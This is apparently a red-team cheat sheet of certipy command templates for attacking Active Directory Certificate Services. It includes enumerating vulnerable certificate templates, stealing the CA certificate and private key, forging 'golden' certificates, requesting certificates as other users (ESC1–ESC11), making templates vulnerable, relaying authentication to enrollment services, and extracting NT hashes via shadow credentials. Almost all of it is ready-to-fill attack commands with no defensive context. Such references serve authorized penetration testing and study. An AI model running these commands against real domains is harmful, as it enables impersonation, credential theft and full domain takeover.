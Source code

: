 # certipy

% adcs, certificate, pki, windows, Active directory, template, shadow credential
#plateform/linux #target/remote #cat/AD/RECON

## enum -  list enabled certificate templates 
```
certipy find -enabled  -hide-admins -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> [-stdout]
```

## enum - list enabled certificate templates (socks)
add CA to /etc/hosts
```
certipy find -enabled -hide-admins -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp [-stdout]
```

## enum - list vulnerable certificate templates 
```
certipy find -vulnerable -hide-admins -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp [-stdout]
```

## enum - list vulnerable certificate templates (socks)
add CA to /etc/hosts
```
certipy find -vulnerable -hide-admins -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp [-stdout]
```

## enum - enumerate to bloodhound (socks)
```bash
certipy find -enabled  -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -old-bloodhound
```

## req - request certificate (v1)
```
certipy req -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name> -template <template> 
```

## req - request certificate (v2)
```
certipy req -u <user>@<domain_fqdn> -p '<password>' -target-ip <ca_ip>  -ca <ca_name> -template <template> 
```


## req - retrieve approved request 
```
certipy req -u <user>@<domain_fqdn> -p '<password>' -target-ip <ca_ip>  -ca <ca_name> -retrieve <id>
```

## cert - extract cert from pfx
#plateform/linux #target/remote #cat/UTILS
```
certipy cert -pfx <pfx> -nokey -out <file>.crt -password <password|jubeaz>
```

## cert - extract key from pfx
```
certipy cert -pfx <pfx> -nocert -out <file>.key -password <password|jubeaz>
```

## cert - create pfx from cert
#plateform/linux #target/remote #cat/UTILS
```
certipy cert -key <key_file>  -cert <cert_file>  -export -out <pfx_file>
```

## auth - authenticate with pfx certificate
#plateform/linux #target/remote #cat/CONNECT
KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type ======> keep trying 
```
certipy auth -pfx <pfx-file>  -domain <domain_fqdn> -username <user> -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp 
```

## auth - authenticate through LDAP (Schannel) with pfx certificate
#plateform/linux #target/remote #cat/CONNECT
```
certipy auth -pfx <pfx-file> -dc-ip <dc_ip> -ldap-shell
```

## Golden Certificate - steal CA certificate and private key
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca -u <user>@<domain_fqdn> -p '<password>' -backup -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name>
```

## Golden Certificate - forge certificate
#plateform/linux #target/remote #cat/ATTACK
```
certipy forge -ca-pfx <pfx-file> -upn <user>@<domain_fqdn> -crl ldap://<dc_ip>:389
```

## req - request certificate for another user - ESC1 - ESC6
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name> -template <template>  -upn <targeted-user>@<domain_fqdn>
```

## req - request certificate on behalf of with Certificate Request Agent certificate - ESC3
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name> -template <template> -on-behalf-of '<NetBIOS-domain-name>\<targeted-user>' -pfx <pfx-file>
```

## template - modify template in order to make it vulnerable to ESC1 - ESC4
#plateform/linux #target/remote #cat/ATTACK
```
certipy template -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -template <template> -save-old
```

## ca - Issue certificate for specific request id - ESC7
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name> -issue-request <csr-id>
```

## relay - relay authentication to CA Web Enrollment - ESC8
#plateform/linux #target/remote #cat/ATTACK
```
certipy relay -target <ca_ip>  -template <template>
```

## relay - relay authentication to RPC Enrollment - ESC11
#plateform/linux #target/remote #cat/ATTACK
```
certipy relay -target "rpc://<ca_name>.<domain_fqdn>" -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name> -template <template>
```

## account - Modify user upn to another one - ESC9 - ESC10
#plateform/linux #target/remote #cat/ATTACK
```
certipy account update -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -user <targeted-user> -upn <target_upn>
```


## account - add computer
#plateform/linux #target/remote #cat/ATTACK
```
certipy account create -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -user user <computer_name> -dns <fqdn>
```


## shadow - get NT Hash using Shadow Credential
#plateform/linux #target/remote #cat/ATTACK
Full Chain exploit of Shadow Credential: Create a Key Credential, Authenticate to get NT hash and TGT, and remove the Key Credential
```
certipy shadow auto -u <user>@<domain_fqdn> -p '<password>' -account <targeted-user>  -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp 
```